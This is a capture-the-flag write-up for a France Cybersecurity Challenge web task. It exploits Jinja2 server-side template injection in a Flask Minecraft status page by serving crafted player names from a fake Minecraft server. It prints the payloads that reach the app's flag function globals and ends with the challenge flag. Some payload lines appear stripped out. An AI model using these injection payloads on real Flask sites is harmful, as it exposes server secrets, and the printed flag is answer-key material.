










# MC Players

## Tables of contents
- [MC Players](#mc-players)
  - [Tables of contents](#tables-of-contents)
  - [First overview](#first-overview)
  - [Brainstorm](#brainstorm)
  - [Fake Minecraft Server](#fake-minecraft-server)
  - [Server Side Template Injection](#server-side-template-injection)
    - [1st problem](#1st-problem)
    - [2nd problem](#2nd-problem)
    - [Find the flag](#find-the-flag)
    - [Crafting the payload](#crafting-the-payload)
  - [Put users on fake MC server](#put-users-on-fake-mc-server)
  - [Getting the flag](#getting-the-flag)
  - [References](#references)


<hr>

It's been several months since [Dinnerbone](https://dinnerbone.com/minecraft/tools/status/)'s service to retrieve the status of a Minecraft server is no longer active. So we decided to propose an alternative using its [mcstatus](https://github.com/py-mine/mcstatus) library.

``https://mc-players.france-cybersecurity-challenge.fr/``

SHA256(``mc-players.zip``) = ``7cda2395fb21dd87c23a27b0f3c81b3837af950c06c5d51539efe476f37c1f60``

[mc-players.zip](src/mc-players.zip)

<hr>

## First overview



This page allows us to get a list of players from a Minecraft server, hum, let's see the code to better understand...

There are 2 dockers, one where the flag is stored and one where the site is running, let's take a look to [app.py](sources/src/web/app/app.py).

This part of the code is giving us our goal for the challenge:

```py
players = []
    if status.players.sample is not None:
        for player in status.players.sample:
            if re.match(r'\w*', player.name) and len(player.name) <= 20:
                players.append(player.name)

    html_player_list = f'''
        <br>
        <h3>{hostname} ({len(players)}/{status.players.max})</h3>
        <ul>
    '''
    for player in players:
        html_player_list += '<li>' + player + '</li>'
    html_player_list += '</ul>'

    results = render_template_string(html_player_list)
    return render_template('index.html', results=results)
```

The code is getting a list of players with on a Minecraft server, create a template with it and render the template another time! We are going to exploit a [Server Side Template Injection](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) :-)

It's important to notice that it will render **only** players with a username of less than or equal to 20 characters...

## Brainstorm

Hum, now we know what we have to do, but how can we do that... We can setup a Minecraft server and create Minecraft users and connect to th....... Too long!

Maybe Github can help us...

## Fake Minecraft Server

After some research, we can find on [Github](https://github.com/) some Fake Minecraft server, where we can add fake users! There are a lot of repositories which don't work on the challenge... We can find this [repo](https://github.com/MrAdhit/FakeMCServer) which works very well!

In ``index.js`` we just have to edit ``config`` object to choose which users are going to be displayed:
```js
const config = {
    "version": {
    1.8.7
        "protocol": 47
    },
    "players": {
        "max": 100,
        "online": 5,
        "sample": [
            {
            MrAdhit
        
            }
        ]
    },
    "description": {
        "text": "Hello world"
    },
    "favicon": `data:image/png;base64,${icon}`
}
```

Let's try with default ``config``.. We can host the fake MC Server on a virtual private server:
```
ruulian-vps@mc-players:/tmp/FakeMCServer$ node index.js 
[8:22:33] Fake Minecraft Server Listening in 25565

```

We can edit ``app.py`` to see error logs:
```py
try:
    ms = JavaServer(hostname, port)
    status = ms.status()

except Exception as e:
    error = f'''
        <br>
        <div class='alert alert-danger' role='alert'>
            An error occurred while communicating with the MC server.
            <br>
            Logs: {e}
        </div>
    '''
    return render_template('index.html', error=error)
```

Now we can build and run ``web`` docker because we don't need ``flag`` docker at the moment. Don't forget to build with DOCKER_BUILDKIT=1, because it needs buildkit:
```
ruulian@mc-players:~$ DOCKER_BUILDKIT=1 docker build -t mc_players_serv .
[+] Building 0.1s (11/11) FINISHED                 
...

ruulian@mc-players:~$ docker run mc_players_serv
 * Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses (0.0.0.0)
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://127.0.0.1:2156
 * Running on http://172.17.0.2:2156 (Press CTRL+C to quit)

```
Let's try with ``0xhorizon.eu:25565`` because our fake server is currently running:



Let's go! We are able to display our fake users!

## Server Side Template Injection

We can cancel our docker and our fake mc server, now it's time to SSTI! But, we have some problems...

### 1st problem

The flag and the server aren't stored on the same docker, so it's useless to RCE... The way we'll use is to find all variables declared in ``app.js``, we'll see how doing it later.

### 2nd problem

We have a character limit, so we can't make classic payloads... There is a solution! In flask we can set variables with ```` and use it after with ``{{ a }}``. So we are going to build a short payload with this strategy.

### Find the flag

To build our payload we can edit our ``app.py`` and set our players manually:
```py
hostname = "localhost"
    html_player_list = f'''
        <br>
        <h3>{hostname} ({len(players)}/{hostname})</h3>
        <ul>
    '''

    players = [
        "{{self}}"
    ]

    for player in players:
        if re.match(r'\w*', player): #and len(player) <= 20:
            html_player_list += '<li>' + player + '</li>'
        html_player_list += '</ul>'

    results = render_template_string(html_player_list)
    return render_template('index.html', results=results)
```


We can remove character filter and put ``{{self}}`` just to try:



Let's find our ``FLAG`` :-)

Our goal is to get our ``flag`` function with SSTI and display all variables in it, so let's find our function.

We can get our environment with this payload: ``{{self._TemplateReference__context.environment}}``, and why is it cool ? Let's see what ``dir()`` function returns (The dir() method returns the list of valid attributes of the passed object).

We have to edit ``app.py`` and set an [environment filter](https://ttl255.com/jinja2-tutorial-part-4-template-filters/) at the beginning of the code:

```py
app.jinja_env.filters["dir"] = dir
```

This is useful because if we write ``{{self._TemplateReference__context.environment|dir}}``, it will apply ``dir()`` function on ``self._TemplateReference__context.environment``, let's try!

Payload: ``{{self._TemplateReference__context.environment|dir}}``


So let's apply ``dir()`` function on ``self._TemplateReference__context.environment.app``:


Payload: ``{{self._TemplateReference__context.environment.app|dir}}``


``view_functions`` in python returns all functions declared in the code in a dictionary, let's find ``flag()`` function:

Payload: ``{{self._TemplateReference__context.environment.app.view_functions}}``


Let's go! We have our function, now let's go deeper with a little ``dir``:

Payload: ``{{self._TemplateReference__context.environment.app.view_functions.flag|dir}}``


And now we just have to display function's ``__globals__``, which returns all objects of the function:

Payload: ``{{self._TemplateReference__context.environment.app.view_functions.flag.__globals__}}``


And voila, we know how to get the flag! We just have to craft our payload now...

### Crafting the payload

As we said before, we have to store in variables our objects and retrieve our final payload.

We can start by storing ``self`` in a variable, our first user will be ````. A problem is we can't store ``_TemplateReference__context`` in a variable because is too long, so we are going to split it. 

Our users:
```





```

Now we can store our ``_TemplateReference__context`` with this user: ```` because in jinja2 it's possible to access an object property with object[property].

We'll follow this way until we have our full payload.

Our users:
```
















{{n[o+p]}}
```

We set all our variables and finally display the flag with ``{{n[o+p]}}``

## Put users on fake MC server

Now we are going to edit our ``config`` object in ``index.js``, here is our new ``config``:
```js
const config ={
    "version": {
        "name": "derp",
        "protocol": 47
    },
    "players": {
        "max": 100,
        "online": 4,
        "sample": [
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d225"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d226"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d227"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d228"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d229"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d230"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d231"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d232"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d233"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d234"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d235"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d236"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d237"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d238"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d239"
            },
            {
                "name": "",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d240"
            },
            {
                "name": "{{n[o+p]}}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d241"
            }
        ]
    },
    "description": {
        "text": "\u00a7kXXX\u00a7r \u00a72Fake MC Server!\u00a7r \u00a74Can't touch this!\u00a7r \u00a7kXXX\u00a7r"
    },
    "favicon": "data:image/png;base64,<data>"
}
```

It will display all our users, let's try with our docker...



LETS GO!!! We finally did it! Let's send our payload to the remote server!

## Getting the flag



And voila :-)

Our flag: ``FCSC{4141f870d98724a3c32b138888e72c5de4e3c793fe1410e1e269d551ae3b3b0f}``

## References

- https://ttl255.com/jinja2-tutorial-part-4-template-filters/
- https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/
- https://github.com/MrAdhit/FakeMCServer